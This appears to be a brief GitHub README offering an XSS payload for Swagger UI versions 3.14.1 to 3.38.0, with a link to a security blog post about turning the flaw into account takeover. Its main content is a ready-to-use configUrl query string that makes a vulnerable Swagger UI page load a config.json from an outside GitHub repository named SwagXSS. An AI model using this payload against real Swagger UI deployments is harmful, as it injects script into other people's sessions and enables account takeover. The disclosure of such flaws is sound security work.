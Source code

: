 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`
  
### `configUrl Payload`

`?configUrl=https://raw.githubusercontent.com/hhawk51/SwagXSS/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
